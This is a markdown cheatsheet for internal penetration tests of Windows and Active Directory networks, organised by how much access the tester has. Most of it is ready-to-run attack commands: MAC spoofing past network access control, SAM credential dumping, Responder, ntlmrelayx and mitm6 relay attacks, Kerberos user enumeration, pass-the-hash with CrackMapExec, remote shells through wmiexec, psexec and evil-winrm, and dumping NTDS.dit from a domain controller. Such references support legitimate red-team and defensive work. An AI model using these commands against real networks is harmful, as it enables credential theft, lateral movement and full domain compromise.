 # Internal Penetration Testing

## **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP \(check next cheatsheet : WIFI\)

### **NAC - MAC filtering**

* Spoof mac from any authorized device \(printer\) and disconnect it: `macchanger -r eth0`
* force your static IP to match the one that you spoofed the mac from : `sudo ifconfig 10.11.12.13/24 && sudo ip route add default via <gateway_ip>`

### NAC - 802.1X

* IEEE 802.1X bypass :

  [https://github.com/Orange-Cyberdefense/fenrir-ocd](https://github.com/Orange-Cyberdefense/fenrir-ocd)

---

## **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
cd SystemRoot%\system32\Config\SAM
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```

---

### Port and service scan

nmap

```sh
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 -oA SMB <hosts>
nmap --version-all -sV -sC -oA top1000 <hosts>
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

---

### Man-In-The-Middle

Responder + NTLMrelayx

First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

Then we create a list of targets :

```bash
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
cme smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small : `cme smb <targets> --gen-relay-list relaylistOutputFilename.txt`

After we can run Responder + ntlmrelayx

```bash
python Responder.py -I <interface> -rdw
ntlmrelayx.py -tf relaylistOutputFilename.txt
```

> This command will generate many log files which contain SAM hashes, just get all these files and store it into a formatted file that includes all hashes. \( `cat *.sam |sort -u > hashs.txt` \) Then you can just run CrackMapExec on full scope using theses hashes :

`crackmapexec smb perim_up_smb.txt -u Administrator -d '.' -H hashs.txt --lsa`

mitm6 + NTLMrelayx

```bash
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
ntlmrelayx.py -tf relaylistOutputFilename.txt -6 
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

---

### **Domain enum**

Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Password policy \(especially lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
```

Open shares \(anonymous SMB, NFS, FTP, etc\)

SMB

```bash
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER

smbclient -L ///192.168.0.1 -U <user> -c ls
```

NFS 

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

kerberos

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='megabank.local',userdb=/root/users.txt 10.10.10.169
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---

## Unprivileged account only 

### Get a shell

> for winRM do : `PATH="ruby -e 'puts Gem.user_dir'/bin:$PATH"`

```bash
.\WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
evil-winrm -i <target> -u <user> -p '<pass>'
python psexec.py '<user>:<pass>@<target>'
```

---

### Domain enum

```bash
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>
bloodhound.py -d <DOMAIN> -u <user> -p <password> -dc <FQDN-SERVER> -c all
python ldapdomaindump.py -u '<domain>\<user>' -p '<pass>' <target>
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```
> More details are available in the next cheatsheet Domain Escalation

---

### SMB restricted shares

```bash
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 
smbget -rR smb://<target>/<share>/ -U <user>
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`
upload .ico .scf => Responder/NTLMrelayx
```

---

### Low Privilege Escalation

See next cheatsheet LPE Windows or LPE Linux

---

## **Local Admin account**

### Post-Exploitation

See next cheatsheets Post-Ex Windows and Post-Ex Linux

### Replay the secrets found

LM/NTLM hash or cleartext password with CrackMapExec

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa
```

### Pivoting

See next cheatsheet Pivoting

### Domain escalation

See next cheatsheet Domain Escalation

---

## **Domain admin account**

### Dump NDTS.dit from DC

```bash
cme smb 192.168.1.100 -u <domain_admin> -p '<pass>' --ntds
```